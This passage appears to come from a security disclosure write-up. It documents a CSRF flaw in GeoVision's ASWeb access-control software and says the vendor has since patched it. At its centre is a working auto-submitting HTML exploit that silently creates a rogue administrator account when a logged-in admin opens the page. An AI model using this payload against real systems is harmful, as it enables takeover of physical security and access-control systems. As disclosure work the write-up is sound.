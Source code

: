 > Generation of the CSRF attack code to create a new administrator - Malicious

<img src="https://github.com/user-attachments/assets/a0081072-46c8-45c8-9686-f5b980a95902" width="700">

> Crafting HTML page, which, if triggered by administrator with open session, will create a new administrator account - Malicious

```
<html>
  <body>
    <form action="https://192.168.50.129/ASWeb/bin/ASWebCommon.srf">
      <input type="hidden" name="action" value="UA&#95;SetCreateAccount" />
      <input type="hidden" name="id" value="Malicious" />
      <input type="hidden" name="password" value="Youarecracked999&#33;" />
      <input type="hidden" name="email" value="Malicious&#64;geovision&#46;com&#46;tw" />
      <input type="hidden" name="level" value="2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

<img src="https://github.com/user-attachments/assets/ee5de623-1bf9-4aa6-aaf0-3cd52a285cea" width="700">

> While the administrator is logged in the web application, he, by triggering the CSRF code, automatically creates the new Malicious administrator.

<img src="https://github.com/user-attachments/assets/bd6e8427-a52c-4c07-8f82-a6d3114ecd8d" width="700">

> The Malicious administrator account has been created.

<img src="https://github.com/user-attachments/assets/54d74a77-adb0-4bc8-8e2b-3992fb563eeb" width="700">

> The Malicious administrator account logs in with full of privileges.

It is worth noting that, by this attack, Malicious user gains administrative privileges in the following applications:
```
ASWeb	- Access & Security Management 
TAWeb	- Time and Attendance Management 
VMWeb	- Visitor Management 
ASManager - Access & Security Management software in OS
```

### The vendor of the product **GeoVision** is informed and they already released the newest fixed version 6.1.2.0 (as of January 2025)

<img src="https://github.com/user-attachments/assets/1c97dfe1-611c-4b0f-871d-a536fdf24658" width="700">
